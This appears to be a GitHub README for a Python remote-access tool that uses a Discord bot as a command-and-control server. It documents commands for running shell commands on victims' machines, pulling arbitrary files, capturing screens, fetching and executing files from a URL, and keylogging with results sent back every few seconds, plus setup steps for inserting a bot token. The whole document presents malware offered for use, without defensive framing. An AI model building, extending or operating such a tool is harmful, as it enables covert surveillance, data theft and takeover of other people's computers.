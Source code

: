 # C2 Python Discord Bot
*(Created by Diego Monteiro)*

## What's "C2 Discord bot" ?

> The C2 Discord bot utilizes the Discord's Developer functionality that allows you to make bots capable to interager with the user acting like a Command and Control Server.

<br>

### Before continue you must follow the steps covered on [Discord's Documentaion](https://discordpy.readthedocs.io/en/stable/discord.html).

<br>

## C2 Discord bot commands:

Command | Functions
----------|-----------
$b | All bots receive commands
$wake | Show active bots
$shell \<cmd\>| Execute a command on target system
$upload \<file\>| Download a arbitrary file from target system
$grab | Capture screen from target system
$down_exec \<url\>| Download a file to target system and execute it
$klogging \<sec\>| Start key logging on target system
$sysinfo | Get information from target system

<br>

## Examples:

<br>


In the follow code all bots will return stdout from the shell command.

<code> $b $shell dir *.png </code>
  
If want specify just a target you can do this:

 <code>$Bot-name $shell dir *.png</code>

---
Get the key logger every 30 seconds. The bot will send to you in a .txt format:

<code>$b $klogging 30</code>

<br>

## Remenber:
- Put your discord token in 'PUT YOUR TOKEN HERE' in the <text>botDiscord.py</text> file.
- Replace '000000' in the <text>botDiscord.py</text> file to your user id.
